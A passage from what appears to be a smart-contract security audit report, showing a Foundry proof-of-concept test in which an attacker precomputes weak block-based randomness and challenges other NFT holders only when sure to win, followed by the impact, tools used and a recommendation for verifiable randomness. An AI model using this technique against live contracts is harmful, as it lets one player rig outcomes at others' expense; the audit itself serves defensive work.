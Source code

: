 ```javascript
        dussehra.enterPeopleWhoLikeRam{value: 1 ether}();

        // pre-checks
        assertEq(ramNFT.ownerOf(0), player1);
        assertEq(ramNFT.ownerOf(1), player2);

        // Prepare attack
        uint256 loop = 0;

        do {
            // Update block
            loop++;
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 12);
            vm.prevrandao(keccak256(abi.encodePacked(block.number)));

            // Precalculate random
            uint256 random = uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao, player1))) % 2;

            // If challenger is going to win, challenge someone until challenger's NFT reaches max value
            if (random == 0) {
                vm.prank(player1);
                choosingRam.increaseValuesOfParticipants(0, 1);
                if (ramNFT.getCharacteristics(0).isSatyavaakyah) {
                    break;
                }
            }
        } while (loop < 100);

        // Final checks
        // challenger's NFT is maxxed out
        assertEq(ramNFT.getCharacteristics(0).isSatyavaakyah, true);
        // challengee's NFT did not improve at all
        assertEq(ramNFT.getCharacteristics(1).isJitaKrodhah, false);
    }
```


## Impact
Malicious users can game the system and challenge others only if they are going to win.

## Tools Used
Manual review, Foundry.

## Recommendations
Consider using a cryptographically provable random number generator, such as 
- Chainlink VRF v2 or v2.5 for deployment on Ethereum, BNB, and Arbitrum,
- [Randomizer.AI](https://randomizer.substack.com/p/introducing-randomizerai-random-numbers-22-06-25) for ZkSync.
## <a id='H-02'></a>H-02. Gas war for becoming Ram, no incentive to join/mint later            
